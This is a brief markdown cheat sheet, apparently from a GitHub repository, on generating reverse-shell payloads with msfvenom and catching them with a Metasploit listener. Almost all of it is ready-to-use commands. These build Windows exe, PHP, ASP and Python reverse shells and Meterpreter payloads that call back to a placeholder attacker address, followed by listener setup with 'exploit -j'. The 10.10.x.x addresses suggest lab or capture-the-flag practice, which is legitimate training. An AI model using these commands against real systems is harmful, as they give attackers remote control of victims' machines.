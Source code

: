 # Msfvenom

Standard syntax: `msfvenom -p <PAYLOAD> <OPTIONS>`

Generate a Windows x64 Reverse Shell in an exe format:

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

* `f <format>`
  * Specifies the output format.
* `o <file>`
  * The output location and filename for the generated payload.
* `LHOST=<IP>`
  * Specifies the IP to connect back to.
* `LPORT=<port>`
  * The port on the local machine to connect back to.
  * This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

#### Payload Naming Conventions

`<OS>/<arch>/<payload>`

for example: `linux/x86/shell_reverse_tcp`

This would generate Windows 32bit targets: `windows/shell_reverse_tcp`

* Stageless payloads are denoted with underscores (\_).
* The staged equivalent to this payload would be: `shell/reverse_tcp`
* As staged payloads are denoted with another forward slash (/).

#### Meterpreter payload

`windows/x64/meterpreter/reverse_tcp`

`linux/x86/meterpreter_reverse_tcp`

#### Metasploit

First set:

`set PAYLOAD <payload>` `set LHOST <listen-address>` `set LPORT <listen-port>`

then:

`exploit -j` -j (job)

* Metasploit listening on a port under 1024 must be run with sudo permissions.

#### Reverse Payload

**Windows**

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`

**PHP**

`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`

**ASP**

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`

**Python**

`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`
